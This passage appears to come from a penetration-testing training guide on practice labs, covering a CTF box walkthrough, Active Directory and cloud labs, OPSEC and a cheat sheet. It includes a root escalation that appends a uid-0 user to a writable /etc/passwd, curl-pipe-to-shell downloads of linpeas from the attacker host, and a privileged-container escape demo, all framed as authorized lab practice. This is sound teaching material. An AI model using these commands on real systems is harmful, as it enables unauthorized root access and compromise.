Command notes: `python3 -m http.server 8000` spins up a throwaway web server in the current directory — the standard way to transfer files to a target. `curl -s ... | sh` downloads and executes in one step; `tee` both prints and saves so you keep the evidence. (`192.168.56.7` is Kali's host-only IP.)

```text
╔══════════╣ Interesting writable files owned by me or writable
/etc/passwd is writable!!!    <- 95% PE vector
╔══════════╣ SUID
-rwsr-xr-x 1 root root  /usr/bin/find    <- exploitable SUID
```

Two live vectors. A writable `/etc/passwd` is a textbook root escalation — add a root-equivalent user with a known password hash:

```bash
# Generate a password hash for a new root-uid user
openssl passwd -1 -salt xyz hacked            # -> $1$xyz$...
echo 'pwn:$1$xyz$m5G...hashhere:0:0:root:/root:/bin/bash' >> /etc/passwd
su pwn                                          # password: hacked
```

```text
root@acme-lab-01:/tmp# id
uid=0(gid=0) root
root@acme-lab-01:/tmp# cat /root/root.txt
7f3c...redacted...   # proof captured; full value in loot/, redacted in notes
```

Command notes: `openssl passwd -1 -salt xyz <pw>` generates an MD5-crypt hash of the format `/etc/passwd` accepts inline; UID/GID `0:0` makes the account root-equivalent; `su pwn` switches to it. This is the minimum-sufficient-proof principle in action — `id` and the flag prove full compromise without touching real data.

Log the win and stop:

```bash
echo "- $(date -u +%FT%TZ) privesc via writable /etc/passwd -> root. Root flag captured." >> notes/README.md
```

### 9.5 The attack path, summarised



Everything about this walkthrough — the folder structure, the timestamped actions log, the redacted flag in notes, the minimum proof — is a scaled-down version of what a real engagement report needs. Practising the *documentation* alongside the *hacking* is what turns box-owning into employable skill.

---

## Part 10: Building a Multi-Host Active Directory Lab

Single boxes teach single-host exploitation. Real corporate compromise is about *movement across a network* — and the network is almost always Active Directory. Because AD skills are the highest-leverage thing a penetration tester can own, and because AD boxes on HTB/THM are a fraction of the practice you need, building your own AD lab is one of the best investments you can make.

### The two ways to get an AD lab

| Approach | What it is | Effort | Best for |
|---|---|---|---|
| **GOAD** (Game of Active Directory) | A free, pre-built, deliberately-misconfigured multi-domain forest deployed with Vagrant/Ansible | Medium (automated, but heavy) | A realistic, attack-path-rich environment with zero design work |
| **Hand-built home AD** | You install a Domain Controller + a couple of member servers/workstations yourself | High | Understanding AD from the ground up; total control |
| **HTB Pro Labs / THM networks** | Hosted multi-host AD networks | Low (subscription) | Practice without local resources; closest to a real internal test |

GOAD is the pragmatic choice for most people: it stands up a forest with two domains, several hosts, and dozens of intentional misconfigurations (Kerberoasting, AS-REP roasting, unconstrained delegation, ACL abuse, cross-domain trust attacks) that mirror what you find on real engagements. It is resource-hungry, though — budget 24–32 GB of RAM and a lot of disk.

### Minimum viable hand-built lab

If you want to understand AD rather than just attack it, build a tiny one by hand. The minimum useful topology:



The build, at a high level (each step is expanded in the Active Directory notebook):

1. **DC01** — install Windows Server (evaluation ISOs are free for 180 days), promote it to a Domain Controller with `Install-ADDSForest`, which also makes it the DNS server for the domain.
2. **SRV01 / WS01** — install Windows Server / Windows 10-11 (also free evaluation media), point their DNS at DC01, and join the domain with `Add-Computer`.
3. **Populate it** — create users, groups, and service accounts; then deliberately misconfigure a few (a service account with a weak password and an SPN for Kerberoasting; a user with `DoesNotRequirePreAuth` for AS-REP roasting). The misconfigurations are the point.
4. **Attacker NIC** — give Kali a second interface on the lab network, exactly as in Part 3.

```powershell
# On the future DC (elevated PowerShell) — install the role and promote
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName "corp.lab" -InstallDNS -Force
```

```powershell
# On a member machine — join the domain (reboots after)
Add-Computer -DomainName "corp.lab" -Credential corp\Administrator -Restart
```

Command notes: `Install-WindowsFeature AD-Domain-Services` adds the AD role binaries; `-IncludeManagementTools` also installs the RSAT snap-ins. `Install-ADDSForest` creates a brand-new forest and its first domain, promoting the box to DC; `-InstallDNS` co-installs the DNS the domain depends on. `Add-Computer -DomainName ... -Restart` joins a machine to the domain and reboots to apply it.

**Red team relevance:** this is not just practice scaffolding — the exact commands that stand the lab up (`Install-ADDSForest`, `Add-Computer`, SPN and pre-auth settings) are the ones whose *misconfiguration* you will hunt for on engagements. Building AD is the fastest way to understand how to break it.

> **Snapshot the whole lab as a set.** With multiple VMs, snapshot them together at a known-good state and revert together — an AD attack often dirties several hosts (created accounts, cached tickets, modified ACLs), and reverting only one leaves the forest inconsistent.

---

## Part 11: CTF Challenge Categories and How to Approach Them

Boxes and rooms teach the full kill chain; **CTF challenges** drill one narrow skill hard. HackTheBox challenges, picoCTF, and competition CTFs are organised by category, and knowing the category tells you which tools and mindset to bring.

| Category | What you're given | Core skills / tools | Where to practise |
|---|---|---|---|
| **Web** | A URL or web app | SQLi, XSS, SSRF, auth bypass, logic flaws; Burp, `curl` | PortSwigger Academy, HTB Web challenges |
| **Crypto** | Ciphertext + hints/code | Classical & modern crypto attacks; Python, `sage`, CyberChef | CryptoHack, picoCTF Crypto |
| **Reversing** | A binary | Static/dynamic analysis; Ghidra, `gdb`, `radare2` | crackmes.one, HTB Reversing |
| **Pwn / Binary exploitation** | A vulnerable binary (+ often source) | Memory corruption, ROP, format strings; `pwntools`, `gdb`+pwndbg | pwn.college, HTB Pwn |
| **Forensics** | A capture, image, or memory dump | Packet/disk/memory analysis; Wireshark, Autopsy, Volatility | HTB Forensics, DFIR CTFs |
| **Steganography** | An image/audio/file | Hidden-data extraction; `steghide`, `binwalk`, `zsteg`, `exiftool` | picoCTF, HTB Stego |
| **OSINT** | A name, image, or clue | Open-source investigation; search engines, maps, metadata | TraceLabs, HTB OSINT |
| **Misc / Jail** | Anything | Scripting, `pyjail` escapes, lateral thinking | picoCTF Misc |

### A repeatable approach to any challenge



Category-agnostic habits that separate people who solve from people who stare:

- **`file` and `binwalk` everything first.** A "PNG" that is really a ZIP, or an image with an appended archive, is one of the most common tricks. `file mystery` and `binwalk mystery` take two seconds and routinely crack stego/forensics challenges outright.
- **Read the prompt like it is load-bearing** — because it is. Challenge authors hide the vector in the title, the flavour text, or the point value. "We heard they *reused* something" screams key/nonce reuse in crypto.
- **CyberChef for anything encoded.** Base64, hex, ROT, XOR, URL-encoding — CyberChef's "Magic" operation auto-detects layered encodings faster than you can reason about them.
- **Match effort to points.** A 50-point challenge has a short path; if you are three hours into a "trivial" one, you are overcomplicating it. A 500-point pwn challenge genuinely is a multi-stage exploit.

```bash
file mystery.bin          # what is this really?
binwalk mystery.bin       # embedded/appended files?
strings -n 8 mystery.bin | grep -i flag    # low-effort flag check
exiftool photo.jpg        # metadata / hidden comments
```

Command notes: `file` reads magic bytes to identify the true type regardless of extension; `binwalk` scans for signatures of embedded files (a JPEG hiding a ZIP); `strings -n 8` prints ASCII runs of ≥8 chars (flags are often just sitting there); `exiftool` dumps metadata where authors love to stash clues.

**Why CTFs are worth your time even as an aspiring penetration tester:** they build the *depth* that boxes skip. A box might have "an SQLi"; a web CTF challenge forces you to defeat a WAF, chain a blind extraction, and script it — the exact difference between recognising a vuln and actually exploiting a hardened one on an engagement.

---

## Part 12: Cloud, Container & Specialised Labs

Networks and web apps are only part of a modern attack surface. Increasingly, engagements touch cloud accounts, containers, and Kubernetes — and the practice environments for these are excellent, free, and deliberately vulnerable.

### Cloud attack labs

Cloud pentesting is less about memory-corruption and more about *identity and misconfiguration* — over-permissioned IAM roles, public storage buckets, exposed metadata endpoints, and privilege-escalation paths through the provider's own APIs. The canonical practice environments:

| Lab | Cloud | What it teaches | Cost model |
|---|---|---|---|
| **flAWS / flAWS2** | AWS | A guided web tour of S3, IAM and metadata misconfigurations, level by level | Free, hosted |
| **CloudGoat** | AWS | "Vulnerable-by-design" scenarios you deploy into *your own* account with Terraform | Free tool; you pay AWS for resources |
| **AzureGoat** | Azure | Deliberately vulnerable Azure environment (web + IAM + storage) | Free tool; you pay Azure |
| **GCPGoat** | GCP | Vulnerable GCP project scenarios | Free tool; you pay GCP |
| **IAM Vulnerable** | AWS | Focused purely on IAM privilege-escalation paths | Free tool; you pay AWS |

> **The one cost warning that matters:** CloudGoat/AzureGoat/GCPGoat deploy real resources into *your* cloud account and bill you for them. Two rules keep this cheap: set a billing alert before you start, and **run `terraform destroy` (or the tool's teardown) the moment you finish a scenario.** A forgotten scenario left running is a small but real monthly charge — and, if it exposed a public resource, a genuine security risk on your own account. The teardown is the cloud equivalent of reverting a snapshot.

```bash
# CloudGoat: deploy a scenario, then ALWAYS destroy it when done
./cloudgoat.py create iam_privesc_by_rollback
# ... practise the scenario ...
./cloudgoat.py destroy iam_privesc_by_rollback     # <- never skip this
```

Command notes: `cloudgoat.py create <scenario>` uses Terraform under the hood to stand up the vulnerable resources and prints the starting credentials; `destroy` tears them all down. Treat `destroy` as mandatory, not optional.

### Container and Kubernetes labs

Containers add their own class of misconfigurations — privileged containers, mounted Docker sockets, escapes to the host, and over-permissive Kubernetes RBAC.

| Lab | Focus |
|---|---|
| **Kubernetes Goat** | A deliberately vulnerable Kubernetes cluster with a guided scenario catalogue (container escape, RBAC abuse, secrets exposure) |
| **Bust-a-Kube** | A vulnerable Kubernetes CTF cluster |
| **DVKA / DVCA** | Damn Vulnerable Kubernetes/Cloud-native app variants |

A container escape lab you can build in minutes locally demonstrates the single most common finding — a container run with too much privilege:

```bash
# INTENTIONALLY misconfigured, for a local lab ONLY: a privileged container
docker run --rm -it --privileged alpine sh
# Inside it, the host's disks are visible — the essence of a container escape
fdisk -l
```

Command notes: `--privileged` disables almost all of the container's isolation, giving it near-host capabilities; `fdisk -l` inside such a container lists the *host's* disks, proving the isolation boundary is gone. Run this only in an isolated local lab — it is a demonstration of exactly the misconfiguration you would flag as critical on an engagement.

**Blue team relevance:** every one of these labs has a defensive mirror. The IAM path CloudGoat teaches you to exploit is the one a defender should be alerting on with cloud-trail analysis; the privileged container above is what a Kubernetes admission controller (OPA/Gatekeeper, Pod Security Standards) exists to block. Practising the attack teaches you exactly what control would have stopped it.

---

## Part 13: Note-Taking That Becomes Your Report

On a real engagement, if you did not write it down, it did not happen. Build the habit in the lab where the stakes are low.

- **One folder per target**, with `scans/`, `loot/`, `exploits/`, `notes/` — as in the lab above.
- **A running actions log** with UTC timestamps. Every meaningful command and result. This is what saves you when a client asks "what did you run at 21:14?" — and what lets you reproduce your own path days later.
- **Screenshots of proof**, not of data. A finding needs the `id` output or the vulnerable request/response, never a dump of real records (Chapter 2's minimum sufficient proof).
- **A findings file** per vulnerability: what it is, where, how you found it, how to reproduce, impact, fix. Written this way, your notes *are* the report's technical section.

Tooling: Obsidian and CherryTree are popular structured note apps; a plain Markdown file per box works fine to start. `flameshot` or `scrot` for screenshots. The tool matters far less than the discipline.

> **Blue team relevance:** the actions log you keep as an attacker is exactly the artifact a defender wishes every real intruder had left. Practising precise, timestamped logging trains the same precision you will need when analysing an incident timeline from the other side.

---

## Part 14: OPSEC — Keeping Practice From Becoming a Real Intrusion

Even in a lab, a few habits keep you safe and legal.

- **Know which network your traffic is on.** Before any scan, confirm whether you are on `tun0` (a platform VPN), a host-only adapter, or — dangerously — a bridged/real interface. `ip route get <target>` shows the exact interface a packet to the target will use. Scanning the wrong subnet because you fat-fingered an IP is how people accidentally scan their ISP.
- **Scope every command to the target.** A `/24` typo in an Nmap command can hit hundreds of machines you do not own. Double-check the IP.
- **Never point lab tools at real infrastructure "just to see."** Your home router, your workplace, a website you like — all off limits without authorization. The techniques are identical; the authorization is not (Chapter 2).
- **Keep the target's isolation verified**, per Part 3. A vulnerable VM that can reach the internet is a machine you have volunteered as a bot.
- **Use platform VPNs as intended.** On HTB/THM, attack only the assigned target IP, never the gateway or other users.

```bash
# One-line safety check before scanning anything:
ip route get 10.10.11.42
```

```text
10.10.11.42 dev tun0 src 10.10.14.7 uid 1000
```

Seeing `dev tun0` confirms the traffic goes down the HTB VPN, not out your home interface. If it said `dev eth0`, you would stop immediately.

---

## Part 15: Common Pitfalls

- **Vulnerable VM on bridged networking.** A known-exploitable box on your home LAN. Always host-only.
- **Not verifying isolation** — trusting the settings label instead of testing with `ping 8.8.8.8` from the target.
- **`kali-linux-everything`** eating 100 GB you never use. Install lean, add on demand.
- **Installing tools with `sudo pip install`** and wrecking system Python. Use `pipx`/venv/apt.
- **No snapshot before starting.** You break the box and cannot get back to clean.
- **Stopping enumeration too early.** The finding is in the port/directory/parameter you did not check.
- **Reading the writeup in the first ten minutes.** You learn to copy, not to hack.
- **Not taking notes**, then being unable to reproduce your own success or write it up.
- **Attacking the HTB/THM VPN gateway or other users.** A ban-worthy violation and terrible practice.
- **Scanning the wrong subnet from a typo.** Check `ip route get` and the target IP every time.
- **Leaving persistence on shared boxes.** Clean up; do not ruin the box for others.
- **Treating flags as the goal.** The goal is the repeatable skill; flags are just the scoreboard.

---

- **Leaving a cloud lab running.** CloudGoat/AzureGoat bill your real account. `destroy` the moment you finish — it is the cloud snapshot-revert.
- **Building an AD lab and snapshotting hosts individually.** An AD attack dirties several machines; snapshot and revert the forest as a set.
- **Bringing the wrong mindset to a CTF category.** `file`/`binwalk` first, read the prompt, match effort to points.

## Part 16: Final Revision — The Chapter in Compressed Form

- A practice lab needs three properties: **isolation, resettability, realistic targets.** Every design choice serves one.
- Use **both** local VMs (depth, offline, unlimited resets) and **platforms** (breadth, fresh targets, community).
- **Kali** is the default attacker box; **Parrot** suits low-spec/privacy. Install lean, snapshot a clean baseline, never `sudo pip install`.
- **Network modes:** host-only for targets (the safe default), NAT for the attacker's internet NIC, **never bridged** for vulnerable VMs. Verify isolation from inside the target (`ping 8.8.8.8` must fail).
- **Snapshots** make the lab worth having: `clean` before starting, one before risky steps, revert freely, prune the chain.
- **Legal targets** span local VMs (DVWA, Juice Shop, Metasploitable, VulnHub, GOAD) and platforms (HTB, THM, PortSwigger, pwn.college, picoCTF). Each is lawful because its owner authorized it — that authorization stops at the platform edge.
- **HackTheBox:** machines (user + root flags), active vs retired, challenges, Pro Labs, Academy; you attack over an OpenVPN `tun0`, spawn the box, submit flag hashes. Attack only the target.
- **TryHackMe:** guided rooms and learning paths, browser AttackBox or your own VPN; the better place to *start* because it teaches what questions to ask.
- **Path to competence:** THM guided → HTB retired with writeup → HTB retired unaided → active boxes → PortSwigger/Pro Labs → bug bounty. Struggle first, writeup last, re-do from memory, keep a personal methodology doc.
- **The full box workflow** — enumerate hard, foothold, log it, enumerate for privesc, escalate, capture minimum proof — is a scaled-down real engagement. Practise the notes as seriously as the exploit.
- **OPSEC:** know your interface (`ip route get`), scope commands to the target, never point lab tools at real infrastructure, keep isolation verified.

- **Active Directory** is the highest-leverage skill: use **GOAD** for a ready-made vulnerable forest, or hand-build DC01 + member + workstation; snapshot and revert the forest as a set.
- **CTF challenges** drill one skill deep; `file`/`binwalk`/`exiftool` first, read the prompt, use CyberChef, match effort to points.
- **Cloud/container labs** (flAWS, CloudGoat, AzureGoat, Kubernetes Goat) teach identity-and-misconfiguration attacks; always tear them down to avoid charges.

---

## Part 17: Cheat Sheet / Quick Reference

### VM network modes

```text
Host-only   -> targets. No internet, no LAN. THE SAFE DEFAULT.
NAT         -> attacker's internet/VPN NIC. No inbound from LAN.
Internal    -> multi-VM lab net (AD lab), not even host.
Bridged     -> real LAN device. NEVER for vulnerable VMs.
```

### Isolation & interface checks

```bash
# From TARGET: internet must be unreachable
ping -c 2 8.8.8.8                       # 100% loss = correctly isolated
# From KALI: can I see the target?
nmap -sn 192.168.56.0/24
# Which interface will my attack traffic use?
ip route get <target-ip>                # want dev tun0 or host-only, NOT eth0
```

### HTB / THM VPN

```bash
sudo openvpn --config lab.ovpn          # keep terminal open
ip addr show tun0 | grep inet           # your attacking IP
ping -c2 <target>                        # (spawn the machine first)
```

### Enumeration starter

```bash
nmap -p- --min-rate 2000 -T4 -Pn -oN scans/all.txt <ip>     # all ports
nmap -p <open> -sC -sV -oN scans/deep.txt <ip>              # versions+scripts
whatweb http://<ip>
ffuf -u http://<ip>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302,401
```

### File transfer to target

```bash
# Kali:
python3 -m http.server 8000
# Target:
curl -s http://<kali-ip>:8000/linpeas.sh | sh | tee /tmp/linpeas.out
wget http://<kali-ip>:8000/tool -O /tmp/tool
```

### Privesc enumeration

```bash
./linpeas.sh                            # automated: SUID, cron, writable, kernel
find / -perm -4000 -type f 2>/dev/null  # SUID binaries by hand
sudo -l                                 # what can I run as root?
cat /etc/crontab; ls -la /etc/cron.*    # scheduled jobs
```

### Engagement folder

```bash
mkdir -p ~/labs/<box>/{scans,loot,exploits,notes}
echo "- $(date -u +%FT%TZ) <action>" >> ~/labs/<box>/notes/README.md
```

### Snapshot discipline

```text
clean          -> before starting any box (your reset point)
pre-exploit    -> before a risky/irreversible step
revert freely  -> a broken box is a revert, not a debug session
prune          -> keep 2-3 snapshots max per box
```

### AD lab quickstart

```powershell
Install-WindowsFeature AD-Domain-Services -IncludeManagementTools
Install-ADDSForest -DomainName "corp.lab" -InstallDNS -Force   # promote DC
Add-Computer -DomainName "corp.lab" -Credential corp\Administrator -Restart  # join
```

### Cloud lab hygiene

```bash
./cloudgoat.py create <scenario>     # deploy vulnerable resources (bills you)
./cloudgoat.py destroy <scenario>    # MANDATORY teardown when finished
```

### CTF triage

```bash
file mystery ; binwalk mystery ; strings -n8 mystery | grep -i flag
exiftool image.jpg          # metadata clues
# encoded blob? paste into CyberChef -> "Magic"
```

---

## Part 18: Practice Labs & Resources

Do these roughly in order; each builds on the last.

1. **Build the lab itself.** Stand up Kali (two NICs: NAT + host-only) and one vulnerable VM (start with **Metasploitable 2** or a beginner **VulnHub** box) on a host-only network. Verify isolation from inside the target (`ping 8.8.8.8` must fail). Snapshot both as `clean`. This *is* the first exercise.
2. **TryHackMe — Complete Beginner path**, then **Jr Penetration Tester path.** These teach the methodology (what to enumerate, what results mean) with full guidance. Do not skip to HTB before you can reason through a guided room.
3. **DVWA and OWASP Juice Shop**, locally or via THM rooms, for core web vulnerabilities at adjustable difficulty. Juice Shop's built-in challenge tracker gamifies it well.
4. **HackTheBox retired Easy machines** (VIP), with the official writeup open in another tab. Owning *Lame*, *Blue*, *Legacy*, or *Netmon* teaches classic vectors. Then re-do each from memory with the writeup closed.
5. **HackTheBox active Easy machines**, unaided, 30-minute timer before any hint. This is where independence forms.
6. **PortSwigger Web Security Academy** — the definitive free web-vuln labs, per class (SQLi, XSS, SSRF, access control). Work a full category to depth.
7. **HackTheBox Pro Labs** (Dante is the beginner-friendly one) once you can solo Easy boxes — for pivoting and multi-host networks that resemble a real internal engagement. Scope it first as an Appendix A exercise, per Chapter 2.
8. **VulnHub boot-to-root boxes** offline when you want unlimited resets and a specific technique to drill.
9. **pwn.college** for structured binary exploitation; **picoCTF** for the competition format and a broad, beginner-friendly challenge set.
